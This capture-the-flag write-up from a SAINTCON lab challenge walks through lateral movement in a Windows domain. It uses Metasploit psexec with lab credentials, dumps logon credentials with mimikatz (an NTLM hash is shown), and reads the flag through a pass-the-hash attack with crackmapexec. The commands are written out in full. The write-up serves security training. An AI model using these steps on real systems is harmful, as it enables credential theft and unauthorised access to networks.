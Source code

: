 # WS02 - User

## Challenge Description

This Category of Challenge is presented by The Keep Community at SAINTCON.

Have you ever wanted to come to a conference, hack a machine, and walk away feeling like you own the world? Yeah, you can do that here.

If you get stuck or have any questions, don't hesitate to visit The Keep Community for help or guidance!

========================================

Please Visit the HACKERS CHALLENGE BOOTH to spinup an environment for you!

This environment will be good for 3 hours.

(due to monetary costs, we won't keep it running longer, but can spin you up a new environement when you need it)

========================================

Welcome to the Keep!

You have been tasked with running a pentest on this client's network.

They have placed a file flag.txt on the desktop of all the important users in the network. This will allow them to see how far you have gone.

## Solution

After we got onto **WS01**, we needed to find a way to pivot to **WS02**. We
already `nmap` scanned the machine and didn't see anything interesting. The
credentials found previously also don't work.

Back to **WS01** to see what we can do. To make life easier since I have no idea
what I'm doing on Windows, I started to use metasploit. 

```bash
$ msfconsole

> use exploit/windows/smb/psexec
> set LHOST [YOUR LISTENING IP]
> set LPORT [YOUR LISTENING PORT]
> set RHOSTS [WS01 IP]
> set SMBPass goCougs123
> set SMBDomain HC
> set SMBUser darkon

> exploit
```

Cool! I'm connected. I have a terminal which I like. Let's now figure out what
is going on with this machine.

Running a `ps` you'll notice that there is another user signed in: `bashninja`. 

Oh... Let's see if `mimikatz` will work. Back in my normal terminal:

```bash
wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip
```

Now in meterpreter you can upload a file:

```
> upload [FILE PATH TO THE ZIP FILE]
```

Now in your RDP session you can unzip the folder. The reason I don't download it
within RDP is because we only had Internet Explorer... which was aweful to use
because it has the restricted mode turned on.

Back in meterpreter, I did the following:

```cmd
> shell

$ cd [TO YOUR DIRECTORY WHERE MIMIKATZ IS]
$ mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
...
...
Authentication Id : 0 ; 237953 (00000000:0003a181)
Session           : RemoteInteractive from 2
User Name         : bashninja
Domain            : HC
Logon Server      : DC
Logon Time        : 10/26/2023 5:04:53 PM
SID               : S-1-5-21-636138077-4214483599-707087073-1115
	msv :
	[00000003] Primary
	* Username : bashninja
	* Domain   : HC
	* NTLM     : e68968cfbc5ab5ac534c1cd3715946dc
	* SHA1     : 36bc9b15a4415770785aa843e9f153379a09caf6
	* DPAPI    : 6058cb499b0f67bf51bd9418880f61bd
	tspkg :
	wdigest :
	* Username : bashninja
	* Domain   : HC
	* Password : (null)
	kerberos :
	* Username : bashninja
	* Domain   : HC.LOCAL
	* Password : (null)
	ssp :
	credman :
...
...
```

Oh cool! We have a NTLM hash. Now we can perform a _pass-the-hash_ attack.  You
can try `xfreerdp` and find that the user is not allowed to RDP into the
machine...

But let's try another way:

```bash
crackmapexec smb WS02/32 -u bashninja -d HC -H e68968cfbc5ab5ac534c1cd3715946dc -x dir
```

And we are returned with results! Awesome! We know where the flag will be so:

```bash
crackmapexec smb WS02/32 -u bashninja -d HC -H e68968cfbc5ab5ac534c1cd3715946dc -x type C:\\Users\\bashninja\\Desktop\\flag.txt
```

And we get a flag!


